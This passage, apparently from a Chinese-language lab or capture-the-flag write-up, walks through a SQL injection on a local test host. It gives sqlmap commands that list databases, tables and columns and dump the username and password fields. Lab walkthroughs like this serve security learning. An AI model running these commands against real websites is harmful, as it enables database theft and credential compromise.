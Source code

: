 SQL注入

直接sqlmap注入所有数据库

```javascript
┌─[root@pendo]─[~]
└──╼ #sqlmap  -u "http://192.168.101.190/results.php" --data "search=1" --dbs
```

发现存在的库（暴库）

![8](https://havocykp.github.io/assets/images/img_blog11/8.png)

查看users（暴表）

```javascript
┌─[root@pendo]─[~]
└──╼ #sqlmap -u "http://192.168.101.190/results.php" --data "search=1" -D users --tables
```

![9](https://havocykp.github.io/assets/images/img_blog11/9.png)

暴字段

```javascript
┌─[root@pendo]─[~]
└──╼ #sqlmap -u "http://192.168.101.190/results.php" --data "search=1" -D users -T UserDetails --columns

```

![10](https://havocykp.github.io/assets/images/img_blog11/10.png)

用户名/密码

```javascript
┌─[✗]─[root@pendo]─[~]
└──╼ #sqlmap -u "http://192.168.101.190/results.php" --data "search=1" -D users -T UserDetails -C username,password --dump

```

![11](https://havocykp.github.io/assets/images/img_blog11/11.png)

查看Staff（暴表）

```javascript
┌─[root@pendo]─[~]
└──╼ #sqlmap -u "http://192.168.101.190/results.php" --data "search=1" -D Staff --tables

```

![12](https://havocykp.github.io/assets/images/img_blog11/12.png)

暴字段

```javascript
┌─[root@pendo]─[~]
└──╼ #sqlmap -u "http://192.168.101.190/results.php" --data "search=1" -D Staff -T Users --columns

```
